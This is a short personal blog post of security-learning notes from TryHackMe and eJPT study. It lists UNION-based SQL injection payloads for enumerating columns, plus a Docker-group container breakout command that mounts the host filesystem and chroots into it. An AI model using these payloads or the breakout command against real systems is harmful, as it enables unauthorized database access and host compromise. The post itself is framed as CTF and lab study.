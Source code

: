 
#+STARTUP: showall indent
#+STARTUP: hidestars
#+OPTIONS: num:nil toc:nil
#+BEGIN_EXPORT html
---
title:  SQL Injection,
categories:
  - blog
tags:
    - SQLi
    - XSS
---
#+END_EXPORT

As mentioned before, I discoverd a major blindspot on the Basic SQLi. how to perform Union Based enumeration.
Yes thanks for THM to show me how weak my game is there :)

So I spend some time on INE eJPT path, to really get into the basics again.... and yes it's quite simple if you know and now I know.

I quess this is a Enumeration methoth anyone can remember :)

~' UNION SELECT NULL--~ \\
~' UNION SELECT NULL,NULL--~ \\
~' UNION SELECT NULL,NULL,NULL--~ \\


~' UNION SELECT 'a',NULL,NULL,NULL--~ \\
~' UNION SELECT NULL,'a',NULL,NULL--~ \\
~' UNION SELECT NULL,NULL,'a',NULL--~ \\
~' UNION SELECT NULL,NULL,NULL,'a'--~ \\

More info can be found here:
https://portswigger.net/web-security/sql-injection/union-attacks


I spend some time on a CFT on THM, and finally made it. Learning some pritty cool stuff on excaping a docker container.

Reference:
https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

Basically if you are in the docker group, you can do the following:

~#Search the socket~ \\
~find / -name docker.sock 2>/dev/null~ \\
~#It's usually in /run/docker.sock~ \\

If found, than generate a new image, and mount the host filesystem into you image and chroot into it... thats a pretty nice.
Although not that realistic I guess, but good for CTFs

~#List images to use one~ \\
~docker images~ \\
~#Run the image mounting the host disk and chroot on it~ \\
~docker run -it -v /:/host/ ubuntu:18.04 chroot /host~ \\
